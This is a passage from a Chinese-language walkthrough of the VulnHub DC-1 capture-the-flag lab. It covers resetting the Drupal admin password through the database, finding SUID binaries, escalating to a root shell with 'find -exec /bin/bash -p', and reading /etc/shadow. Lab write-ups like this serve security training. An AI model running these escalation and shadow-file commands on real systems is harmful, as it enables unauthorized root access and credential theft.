 直接使用脚本生成一个加密后的字符

```shell
php ./scripts/password-hash.sh 123
```

![](D:\stu\vulnhub\DC靶场\pic-1\19.jpg)

生成123的hash值`$S$D2zHNCokKD0hVFQKDOWoioPLA8iJUH3KjzJlvX068bKHQViCjjbV`

那么就可以使用数据库，进行更新密码的操作

```mysql
update users set pass=123 where uid=1;
```

![](D:\stu\vulnhub\DC靶场\pic-1\20.jpg)

# 寻找flag3

再次访问网站进行登录，使用用户名`admin`和密码`123`进行登录，发现登录成功，并成功发现`flag3`，当然，这在前面的时候就已经通过脚本添加一个管理员账户，并登录成功，看到了`flag3`

![](D:\stu\vulnhub\DC靶场\pic-1\21.jpg)

![](D:\stu\vulnhub\DC靶场\pic-1\22.jpg)

进行翻译，查看什么意思

"特殊权限（操作）将有助于找到密码文件（passwd）—— 但你需要使用 “-exec” 命令来弄清楚如何获取影子文件（shadow）中的内容。"

# 寻找flag4

根据其提示，来尝试使用`find`获取SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

发现有`find`，具体用法，如果不清楚，可以参考网站`gtfobins.github.io`

![](D:\stu\vulnhub\DC靶场\pic-1\23.jpg)

```shell
which find	#确定find命令的位置
/usr/bin/find . -exec /bin/bash -p \; -quit
```

执行后，可以清楚的看到提权成功

![](D:\stu\vulnhub\DC靶场\pic-1\24.jpg)

不过按照道理这就可以直接看到最终`flag`了，但是说是5个`flag`，所以我们这种直接获取`root`的`bash`，属于直接到最后了

所以。这里按照提示去获取`/etc/shadow`文件

```shell
find / -exec /bin/cat /etc/shadow \; -quit
```
